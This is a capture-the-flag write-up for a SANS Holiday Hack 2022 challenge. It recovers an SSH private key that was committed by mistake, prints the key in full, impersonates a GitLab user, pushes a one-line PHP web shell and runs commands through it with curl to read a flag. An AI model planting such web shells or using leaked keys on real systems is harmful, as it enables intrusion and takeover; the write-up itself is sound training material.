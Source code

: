 # OBJECTIVE 3 - Recover the Elfen Ring #
## 3C - Jolly CI/CD ##

### OBJECTIVE : ###
>Exploit a CI/CD pipeline.  Get hints for this challenge from Tinsel Upatree in the Elfen Ring.
#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 3C</summary>
  
>-  The thing about Git is that every step of development is accessible – even steps you didn’t mean to take!  `git log` can show code skeletons.
>-	If you find a way to impersonate another identity, you might try re-cloning a repo with their credentials.
</details>

#  

## PROCEDURE : ##

First things first – let’s clone into the git repository that Tinsel Upatree told us about:
```
$ git clone http://gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
$ cd wordpress.flag.net.internal
```

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/fb899de5-1778-440b-a331-4f27630283e9)
Tinsel Upatree conveniently tells us that; “WHOOPS” - at some point he committed something to git by mistake.  Having already completed the Trufflehog Search Objective, I immediately thought to bring up the git logs to see what commits have been made to the project.  
```
$ git log
```
One of the commits is conveniently labelled with the comment `whoops`.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/fdc157ff-fec3-48df-98dc-e70834ffef7a)

So, let’s have a look at what it contains:
```
$ git show e19f653bde9ea3de6af21a587e41e7a909db1ca5
```
We can immediately see the contents of what appears to be a public and private key pair.  It looks like somebody committed the contents of their `.ssh` directory by mistake!  We can also see a user-name: `knee-oh` and email address: `sporx@kringlecon.com` for this commit which might come in handy later.
```
Author: knee-oh <sporx@kringlecon.com>
Date:   Tue Oct 25 13:42:13 2022 -0700

    added assets

diff --git a/.ssh/.deploy b/.ssh/.deploy
new file mode 100644
index 0000000..3f7a9e3
--- /dev/null
+++ b/.ssh/.deploy
@@ -0,0 +1,7 @@
+-----BEGIN OPENSSH PRIVATE KEY-----
+b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
+QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
+9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
+AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
+PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
+-----END OPENSSH PRIVATE KEY-----
diff --git a/.ssh/.deploy.pub b/.ssh/.deploy.pub
new file mode 100644
index 0000000..8c0b43c
--- /dev/null
+++ b/.ssh/.deploy.pub
@@ -0,0 +1 @@
+ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```

We can now use the information we have to create the necessary `id_rsa` files and hopefully be able to ssh into the repository and impersonate the user `knee-oh`.  To do this we need to copy and paste the private and public keys into two files called `id_rsa` and `id_rsa.pub` respectively – both of which are kept in the `.ssh` directory and set with permissions `chmod 600`.  [This website](https://gist.github.com/xirixiz/b6b0c6f4917ce17a90e00f9b60566278) was super helpful when it came to setting this up and testing it.
```
$ mkdir /home/samways/.ssh
$ cd /home/samways/.ssh
$ touch id_rsa
$ nano id_rsa
```
 ### Contents of id_rsa: ###
 ```
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4gAAAJiQFTn3kBU5
9wAAAAtzc2gtZWQyNTUxOQAAACD+wLHSOxzr5OKYjnMC2Xw6LT6gY9rQ6vTQXU1JG2Qa4g
AAAEBL0qH+iiHi9Khw6QtD6+DHwFwYc50cwR0HjNsfOVXOcv7AsdI7HOvk4piOcwLZfDot
PqBj2tDq9NBdTUkbZBriAAAAFHNwb3J4QGtyaW5nbGVjb24uY29tAQ==
-----END OPENSSH PRIVATE KEY-----
```
```
$ chmod 600 id_rsa
$ touch id_rsa.pub
$ nano id_rsa.pub
```
### Contents of id_rsa.pub: ###
```
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP7AsdI7HOvk4piOcwLZfDotPqBj2tDq9NBdTUkbZBri sporx@kringlecon.com
```
```
$ chmod 600 id_rsa.pub
```
Now we can finally test to see if we can ssh correctly:
```
$ ssh -T git@gitlab.flag.net.internal
```

And sure enough – we are served up a welcome banner saying **Welcome to GitLab, @knee-oh!**  Oh what a glorious sight!
 ![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/9da7fa29-a6b8-48e1-8786-155c153196f8)

By this point I think I’ve got a pretty good idea of what needs to be done next.  The objective expects us to return a flag of some sort; so, we’ll probably need to gain access to the server hosting the Wordpress site.  If we are able to access knee-oh’s gitlab account with his credentials we should be able to push whatever we want to the web server – maybe even a RCE script.  But first let’s remove the downloaded repo and re-clone it with knee-oh’s credentials by using git clone with ssh://.
```
$ cd /home/samways
$ rm -rf wordpress.flag.net.internal
$ git clone ssh://git@gitlab.flag.net.internal/rings-of-powder/wordpress.flag.net.internal.git
$ cd wordpress.flag.net.internal
```

Next, we can impersonate knee-oh by setting his username and email address:
```
$ git config user.name “knee-oh”
$ git config user.email “sporx@kringlecon.com”
```

Now we can create a simple php script for **Remote Code execution (RCE)**, commit it and push it to the live server.
```
$ echo ‘<?php echo shell_exec($_GET[“cmd”]);?>’ > letmein.php
$ git add letmein.php
$ git commit -m “hahaha” 
$ git push
```
Checking out the logs we can confirm that it looks as if knee-oh pushed the file to the server:
```
$ git log
```
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/d3e45c53-86ca-46e7-bc5d-dedf5892b550)


 
We should now be able to call the Wordpress url using `curl` and pass on commands as arguments to the `php` and hopefully they will be executed by the webserver.  Surely enough by entering;
```
$ curl http://wordpress.flag.net.internal/letmein.php?cmd=whoami
```
We get a reply from the webserver letting us know that our username is `www-data`.  Similarly, we can browse around the webserver using the `ls` command as follows to look at the root directory:
```
curl http://wordpress.flag.net.internal/letmein.php?cmd=ls%20/.
```
Here we can see a file called `flag.txt` which we can look into by using `cat` in a similar fashion:
```
curl http://wordpress.flag.net.internal/letmein.php?cmd=cat%20/./flag.txt
```
And there it is - the file contains the Elfen ring and our flag!

![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2022/assets/60655500/484795ce-c6b7-493f-8827-c303be8ba270)

